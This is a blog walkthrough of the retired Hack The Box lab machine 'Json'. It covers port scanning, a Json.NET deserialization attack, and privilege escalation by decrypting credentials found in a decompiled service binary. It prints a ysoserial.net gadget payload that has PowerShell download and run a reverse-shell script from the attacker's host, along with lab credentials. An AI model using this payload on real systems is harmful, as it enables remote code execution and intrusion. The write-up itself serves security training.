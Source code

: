 ```yaml
---
layout: post
title: "Json: Hack The Box Walkthrough"
date: 2020-02-16 04:00:00 +0000
last_modified_at: 2020-02-16 04:00:00 +0000
category: Walkthrough
tags: ["Hack The Box", Json, retired]
comments: true
image:
  feature: json-htb-walkthrough.jpg
  credit: xresch / Pixabay
  creditlink: https://pixabay.com/illustrations/analytics-information-innovation-3088958/
---
```


This post documents the complete walkthrough of Json, a retired vulnerable [VM][1] created by [Cyb3rb0b][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Json is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.158 --rate=1000

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-09-29 06:29:49 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49153/tcp on 10.10.10.158                                 
Discovered open port 49152/tcp on 10.10.10.158                                 
Discovered open port 49156/tcp on 10.10.10.158                                 
Discovered open port 445/tcp on 10.10.10.158                                   
Discovered open port 49155/tcp on 10.10.10.158                                 
Discovered open port 5985/tcp on 10.10.10.158                                  
Discovered open port 47001/tcp on 10.10.10.158                                 
Discovered open port 21/tcp on 10.10.10.158                                    
Discovered open port 139/tcp on 10.10.10.158                                   
Discovered open port 49157/tcp on 10.10.10.158                                 
Discovered open port 80/tcp on 10.10.10.158                                    
Discovered open port 49158/tcp on 10.10.10.158                                 
Discovered open port 49154/tcp on 10.10.10.158                                 
Discovered open port 137/udp on 10.10.10.158                                   
Discovered open port 3389/tcp on 10.10.10.158                                  
Discovered open port 135/tcp on 10.10.10.158
```

Whoa. Many interesting open ports. Let\'s do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p21,80,135,139,445,3389,5985 -A --reason -oN nmap.txt 10.10.10.158
...
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 127 FileZilla ftpd
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
80/tcp   open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
| http-methods:
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp  open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 127
|_ssl-date: 2019-09-29T10:37:06+00:00; +4h00m01s from scanner time.
5985/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
...
Host script results:
|_clock-skew: mean: 4h00m00s, deviation: 0s, median: 4h00m00s
| nbstat: NetBIOS name: JSON, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:f6:65 (VMware)
| Names:
|   JSON<00>             Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  JSON<20>             Flags: <unique><active>
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-09-29T10:36:58
|_  start_date: 2019-09-29T03:54:04
```

Interesting list of services. I think the creator is telling us look at the `http` service first. Here's how it looks like.

<a class="image-popup">
![87f2df7e.png](/assets/images/posts/json-htb-walkthrough/87f2df7e.png)
</a>

### JSON Deserialization Attack

During my capture of the HTTP traffic with Burp, I was pleasantly surprised to find out I could log in with the credential (`admin:admin`). It was here that I noticed two XHRs to `/api/token` and `/api/Account`.

<a class="image-popup">
![1f7a5477.png](/assets/images/posts/json-htb-walkthrough/1f7a5477.png)
</a>

The XHR to `/api/Account` had something funky going on. Send the request to Repeater. You'll notice that there's a **Bearer** header accompanying the XHR. The value is `base64`-encoded. What if we empty the value?

<a class="image-popup">
![0dd191c7.png](/assets/images/posts/json-htb-walkthrough/0dd191c7.png)
</a>

That's interesting. Now, what if we put in some strange `base64`-encoded string?

<a class="image-popup">
![b75dc5f3.png](/assets/images/posts/json-htb-walkthrough/b75dc5f3.png)
</a>

```
{"Message":"An error has occurred.","ExceptionMessage":"Cannot deserialize Json.Net Object","ExceptionType":"System.Exception","StackTrace":null}
```

Gotcha! I think I know what's going on here. There's a Json.Net deserializer that converts the **Bearer** `base64`-encoded value to a .NET object at the backend. Armed with this insight, let's see if we can send in a [ysoserial.net](https://github.com/pwntester/ysoserial.net) payload.

According to the GitHub repository of ysoserial.net, this gadget (`ObjectDataProvider`) specifically targets Json.NET. Let's see if we can use PowerShell to execute a [reverse shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3) back to us.

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':["cmd", "/c powershell /c iex (new-object net.webclient).downloadstring('http://10.10.12.99/rev.ps1')"]
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

Of course, we need to `base64`-encode the above and shuttle it into the **Bearer** header.

<a class="image-popup">
![179717f8.png](/assets/images/posts/json-htb-walkthrough/179717f8.png)
</a>

And voila!

<a class="image-popup">
![0cafbc53.png](/assets/images/posts/json-htb-walkthrough/0cafbc53.png)
</a>

The file `user.txt` is at `c:\users\userpool\desktop`.

<a class="image-popup">
![7b7a4cb7.png](/assets/images/posts/json-htb-walkthrough/7b7a4cb7.png)
</a>

## Privilege Escalation

During enumeration of `userpool`'s account, I notice a suspicious-looking service FilesToSync at Program Files, along with a pair of encrypted credentials.

<a class="image-popup">
![b39c4b08.png](/assets/images/posts/json-htb-walkthrough/b39c4b08.png)
</a>

The service appears to synchronize files between two locations through FTP. Suffice to say, I grabbed a copy of `SyncLocation.exe` to my machine for further analysis.

### Decompilation of `SyncLocation.exe`

It turns out that `SyncLocation.exe` is a .Net assembly executable, which can be easily decompiled to its source code using [dnSpy](https://github.com/0xd4d/dnSpy). I\'m looking for the method to decrypt those credentials.

<a class="image-popup">
![d47d2741.png](/assets/images/posts/json-htb-walkthrough/d47d2741.png)
</a>

Using [.NET Fiddle](https://dotnetfiddle.net/), I was able to decrypt the credentials.

<a class="image-popup">
![02610a99.png](/assets/images/posts/json-htb-walkthrough/02610a99.png)
</a>

The credential is (`superadmin:funnyhtb`). Armed with these, I was able to retrieve `root.txt`.

<a class="image-popup">
![ee93a86c.png](/assets/images/posts/json-htb-walkthrough/ee93a86c.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/210
[2]: https://www.hackthebox.eu/home/users/profile/61047
[3]: https://www.hackthebox.eu/
